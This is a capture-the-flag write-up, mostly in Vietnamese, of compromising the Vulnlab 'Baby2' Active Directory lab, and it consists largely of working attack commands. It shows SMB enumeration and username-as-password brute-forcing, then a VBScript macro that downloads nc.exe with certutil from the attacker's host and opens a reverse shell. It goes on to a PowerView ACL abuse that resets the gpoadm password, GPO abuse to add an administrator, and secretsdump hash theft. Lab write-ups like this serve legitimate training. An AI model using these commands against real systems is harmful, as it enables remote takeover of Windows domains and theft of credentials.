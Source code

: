 ```yaml
---
title: WRITE-UP Vulnlab Baby2
date: 2024-9-30 09:00:01 +0700
categories: [write up, vulnlab, red team, oscp, window]
tags: [vulnlab]     # TAG names should always be lowercase
---
```


# Write-up Baby2 -Vulnlab
- Nmap 
```
sudo nmap -sC -sV -p1-20000 10.10.93.93 --min-rate=3000 -T4
```
![alt text](/assets/img/baby2/image.png)

day la lab AD vi port 88 mo 

- RECON SMB

```
crackmapexec smb target 10.10.93.93 -u 'guest' -p '' --shares //null search
```

![alt text](/assets/img/baby2/image-1.png)

ta co the null search duoc va doc duoc 

READ
* apps
* IPC$
* NETLOGON
* homes

WRITE
* homes

Gio xem la trong cac file share co gi nhe 

```
smbclient \\\\10.10.93.93\\apps
```

![alt text](/assets/img/baby2/image-2.png)

sau khi check t duoc 1 ma hex

![alt text](/assets/img/baby2/image-3.png)

co ve ko co gi check tiep 

```
smbclient \\\\10.10.93.93\\homes
```

![alt text](/assets/img/baby2/image-4.png)

co ve day se cho ta 1 list user

![alt text](/assets/img/baby2/image-5.png)

brute-force xem lieu chung ta co the lam gi duoc voi nhung user nay k su dung user:user

```
crackmapexec smb target 10.10.93.93 -u user -p user --continue-on-success
```

sau khi brute-force ta co duoc 2 user 


baby2.vl\Carl.Moore:Carl.Moore

baby2.vl\library:library

![alt text](/assets/img/baby2/image-6.png)

![alt text](/assets/img/baby2/image-7.png)

sau khi login ta co the doc duoc doc xem no xem co gi khong

READ 
* docs
* SYSVOL

```
smbclient \\\\10.10.93.93\\docs -U Carl.Moore --password='Carl.Moore'
smbclient \\\\10.10.93.93\\SYSVOL -U Carl.Moore --password='Carl.Moore'
```
![alt text](/assets/img/baby2/image-8.png)
![alt text](/assets/img/baby2/image-9.png)

sau khi check thi ta thay co 1 file cho phep tao o dia va truyen file qua lai trong server dan macro 
vi vay ta co the tao reverse o day

```
Set oShell = CreateObject("Wscript.Shell")
oShell.run "cmd.exe /c mkdir C:\Temp"
oShell.run "cmd.exe /c certutil -urlcache -f http://10.8.3.170:8888/nc.exe C:\Temp\nc.exe"
oShell.run "cmd.exe /c C:\Temp\nc.exe 10.8.3.170 443 -e cmd.exe"

```

![alt text](/assets/img/baby2/image-11.png)
![alt text](/assets/img/baby2/image-10.png)

vay la t co the control duoc user ```baby2\amelia.griffiths```

den gio thi khong co huong phat trien tiep vi vay ta se phat trien tiep su dung bloodhound
```
bloodhound-python -d 'baby2.vl' -u 'Carl.Moore' -p 'Carl.Moore' -c all -ns 10.10.93.93 --zip
```
![alt text](/assets/img/baby2/image-12.png)

![alt text](/assets/img/baby2/image-14.png)

ta thay la user cua ta co the ```WRITEDACL``` toi ```GPOadm```
ta import powerview de co the chay nhie command hon
```
certutil -urlcache -f http://10.8.3.170:8888/powerview.ps1 powerview.ps1
import-module ./powerview.ps1
```
![alt text](/assets/img/baby2/image-13.png)

vi ta co quyen WriteDACL len GPO vi vay ta co the doi mat khau cua ```gpoadm```

```
Add-DomainObjectAcl -Rights "all" -TargetIdentity "gpoadm" -PrincipalIdentity "Amelia.Griffiths"

$cred = ConvertTo-SecureString 'Password123!' -AsPlainText -Force

set-domainuserpassword gpoadm -accountpassword $cred
```

sau khi doi mat khau cua ```gpoadm``` thi ta thay la thang ```gpoadm``` co quyen ```generic all``` cho phep abuse den ```domain controler``` 

thi ben trong huong dan cua thang bloodhound keu su dung tool ```pygpoabuse``` de abuse ```gpoadm``` to administrator

```
python3 pygpoabuse.py baby2.vl/gpoadm:Password123! -gpo-id 6AC1786C-016F-11D2-945F-00C04FB984F9 -dc-ip 10.10.93.93 -command 'net localgroup administrators /add gpoadm'
```
![alt text](/assets/img/baby2/image-15.png)

sau khi abuse thi de join vao may thi can mat khau ```SAM``` cua may cai nay thi thang ```impacket-secretdump``` lam dc 

```
impacket-secretsdump baby2.vl/gpoadm:'Password123!'@10.10.93.93
```

![alt text](/assets/img/baby2/image-16.png)

login with hash password dump duoc voi ```evil-winrm```

![alt text](/assets/img/baby2/image-17.png)

Now we are root :3